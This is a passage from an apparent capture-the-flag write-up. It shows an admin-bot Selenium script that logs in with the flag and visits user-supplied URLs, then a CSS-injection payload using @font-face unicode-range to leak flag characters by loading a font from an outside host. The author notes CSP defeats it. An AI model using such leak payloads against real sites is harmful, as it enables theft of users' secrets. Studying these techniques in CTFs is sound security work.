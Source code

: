 ``` python
    options.add_argument('--js-flags=--noexpose_wasm,--jitless')
    options.add_argument('hide-scrollbars')
    options.add_argument('load-extension=ninja-cookie')

    try:
        browser = webdriver.Chrome('/usr/local/bin/chromedriver', options=options, service_args=['--verbose', '--log-path=/tmp/chromedriver.log'])

        browser.get(TASK+"/login")
        WebDriverWait(browser, 5).until(lambda r: r.execute_script('return document.readyState') == 'complete')
        inputElement = browser.find_element_by_id("username")
        inputElement.send_keys(flag)
        inputElement = browser.find_element_by_id("password")
        inputElement.send_keys(pwd)
        browser.find_element_by_id("submit").click()
        WebDriverWait(browser, 5).until(lambda r: r.execute_script('return document.readyState') == 'complete')
        time.sleep(timeout)

        browser.get(url)
        WebDriverWait(browser, 30).until(lambda r: r.execute_script('return document.readyState') == 'complete')
        time.sleep(30)
    except:
        print('Error visiting', url, traceback.format_exc(), file=sys.stderr, flush=True)
    finally:
        print('Done visiting', url, file=sys.stderr, flush=True)

@app.route("/", methods=['GET'])
def visit():
    visit_url(request.args.get("url"), 1)
    return "ok"

```

First, let me talk about my thoughts after seeing this question. Because CSS injection can be done and the content is on the page, I naturally think of using `font-face` with `unicode-range`, like this:

``` css
@font-face {
  font-family:"A";
  src: url(https://example.com);
  unicode-range: U+006A;
}
.nickname > span:nth-child(1) {
  font-family: A1;
}
```

This way, as long as the first character of the flag is `U+006A`, the specified font will be applied, but the font is restricted by CSP and cannot be loaded, so this trick cannot pass.

